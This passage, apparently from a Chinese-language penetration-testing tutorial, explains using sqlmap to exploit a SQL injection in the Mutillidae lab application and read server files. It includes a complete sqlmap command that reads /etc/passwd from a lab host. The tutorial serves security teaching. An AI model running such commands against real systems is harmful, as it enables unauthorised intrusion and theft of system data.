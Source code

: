 ![](img/00153.jpeg)

攻击者的目标是利用 SQL 注入漏洞在服务器上进一步立足。 使用 sqlmap，您可以利用这个漏洞在数据库服务器上读写文件，这会调用目标上的`load_file()`和`out_file()`函数来实现它。 在下面的示例中，我们正在读取服务器上`/etc/passwd`文件的内容：

```

sqlmap -u "http://10.7.7.5/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -p username --file-read /etc/passwd

```

![](img/00154.jpeg)
